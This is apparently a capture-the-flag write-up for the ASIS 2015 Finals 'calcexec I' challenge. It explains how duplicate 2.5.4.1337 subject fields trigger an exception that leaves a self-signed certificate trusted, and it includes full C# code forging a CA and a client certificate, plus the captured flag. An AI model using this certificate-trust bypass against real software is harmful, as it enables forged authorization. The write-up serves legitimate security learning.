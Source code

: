 ```yaml
---
layout: post
title: "ASIS 2015 Finals: (pwn200) calcexec I"
modified: 2015-10-14
tags: asis asis2015finals [digital signature] .net
---
```


Calc.exe is a .NET program (finally :D), which can evaluate (mostly) mathematical expressions.

At first no functions are enabled except some basic mathematical operations like addition, subtraction, etc.

But we can enable different functions by using a digitally signed X509 certficates.

We also got an example cert "guestCert.crt" which enabled some basic math and trigonomical functions.

![alt]({{ site.url }}/images/asis2015finals/calcexe1.png)

The program also adds a function called FLAG which returns the flag as string.

![alt]({{ site.url }}/images/asis2015finals/calcexe3.png)

The problem is we cannot load any certificate as there is a lot of checks before, so we had to find some vulnerability. The program uses a known crypto library, called BouncyCastle and the attached "BouncyCastle.Crypto.dll" is exactly the same as the one we can download from NuGet. As no known vulnerability exists for this library (or at least at the certificate verification part), we had to look for vulnerabilities in the program.

Although the certificate loaded into the store while it is checked, no self-signed certificates are allowed and it is removed as soon as its verification fails.

But there is a bug in the code: although some checks like the VerifyCertificate is in a try-catch block and returns a boolean value, the IsCalcExeCert can throw exception while calling SingleOrDefault method. To trigger the exception we have to put two values with the 2.5.4.1337 key into the SubjectName's field.

![alt]({{ site.url }}/images/asis2015finals/calcexe2.png)

Although our certificate is not deleted from the trusted CA store, it is not loaded into the program, so we cannot call the FLAG function yet. But we can sign a new client certificate with this now trusted cert as a CA (certificate authority). This way our new certificate will be accepted.

The attached C# code snippet (calcexe1.cs) will generate the fake CA and the fake certificate.

{% highlight text %}
The flag was: ASIS{e5cb5e25f77c1da6626fb78a48a678f3}
{% endhighlight %}

### Exploit code

{% highlight csharp %}
using System;
using System.Collections.Generic;
using System.IO;
using System.Linq;
using System.Runtime.ConstrainedExecution;
using System.Text;
using System.Threading.Tasks;
using Org.BouncyCastle.Asn1;
using Org.BouncyCastle.Asn1.X509;
using Org.BouncyCastle.Crypto;
using Org.BouncyCastle.Crypto.Generators;
using Org.BouncyCastle.Crypto.Parameters;
using Org.BouncyCastle.Crypto.Prng;
using Org.BouncyCastle.Math;
using Org.BouncyCastle.OpenSsl;
using Org.BouncyCastle.Pkcs;
using Org.BouncyCastle.Security;
using Org.BouncyCastle.Utilities;
using Org.BouncyCastle.X509;

namespace CalcExeCertGenerator
{
    class Program
    {
        public class CertWithKey
        {
            public X509Certificate Cert { get; set; }
            public RsaPrivateCrtKeyParameters Key { get; set; }

            public CertWithKey(X509Certificate cert, RsaPrivateCrtKeyParameters key)
            {
                Cert = cert;
                Key = key;
            }
        }

        public static CertWithKey GenerateCertificate(string subjectName, CertWithKey issuer = null, int keyStrength = 1024, Action<X509V3CertificateGenerator> genAction = null)
        {
            var random = new SecureRandom(new CryptoApiRandomGenerator());
            var certificateGenerator = new X509V3CertificateGenerator();
            certificateGenerator.SetSerialNumber(BigIntegers.CreateRandomInRange(BigInteger.One, BigInteger.ValueOf(Int64.MaxValue), random));
            certificateGenerator.SetSignatureAlgorithm("SHA1WithRSA");
            certificateGenerator.SetIssuerDN(issuer != null ? issuer.Cert.SubjectDN : new X509Name(subjectName));
            certificateGenerator.SetSubjectDN(new X509Name(subjectName));
            certificateGenerator.SetNotBefore(DateTime.UtcNow.Date);
            certificateGenerator.SetNotAfter(DateTime.UtcNow.Date.AddYears(2));
            certificateGenerator.AddExtension(X509Extensions.BasicConstraints, true, new BasicConstraints(false));
            certificateGenerator.AddExtension(X509Extensions.KeyUsage, true, new KeyUsage(KeyUsage.DigitalSignature));
            certificateGenerator.AddExtension(X509Extensions.ExtendedKeyUsage, true, new ExtendedKeyUsage(KeyPurposeID.IdKPCodeSigning));
            if (genAction != null)
                genAction(certificateGenerator);

            // Subject Public Key
            var keyPairGenerator = new RsaKeyPairGenerator();
            keyPairGenerator.Init(new KeyGenerationParameters(random, keyStrength));
            var subjectKeyPair = keyPairGenerator.GenerateKeyPair();

            certificateGenerator.SetPublicKey(subjectKeyPair.Public);

            var certificate = certificateGenerator.Generate(issuer != null ? issuer.Key : subjectKeyPair.Private, random);
            return new CertWithKey(certificate, (RsaPrivateCrtKeyParameters)subjectKeyPair.Private);
        }

        static string ToPem(object obj)
        {
            var sw = new StringWriter();
            new PemWriter(sw).WriteObject(obj);
            return sw.ToString();
        }

        static void Main(string[] args)
        {
            X509Name.DefaultLookup.Add("prg", new DerObjectIdentifier("2.5.4.1337"));
            var fakeCa = GenerateCertificate("C=IR, L=Iran, E=calc@asis-ctf.ir, O=calc.exe, CN=calc.exe, 2.5.4.1337=calc.exe, 2.5.4.1337=calc.exe");
            var fakeUserCert = GenerateCertificate("C=IR, L=Iran, E=guest@asis-ctf.ir, O=guest, CN=guest, 2.5.4.1337=calc.exe", fakeCa,
                genAction: gen => gen.AddExtension("1.1.1337.7331", false, Encoding.Default.GetBytes("ABS,ACOS,ASIN,ATAN,ATAN2,CEILING,COS,COSH,EXP,FLOOR,FLAG,INT,LN,LOG,LOG10,PI,POWER,RAND,RANDBETWEEN,SIGN,SIN,SINH,SQRT,SUM,SUMIF,TAN,TANH,TRUNC,READ,WRITE")));
            File.WriteAllText("fakeCa.crt", ToPem(fakeCa.Cert));
            File.WriteAllText("fakeUserCert.crt", ToPem(fakeUserCert.Cert));
        }
    }
}
{% endhighlight %}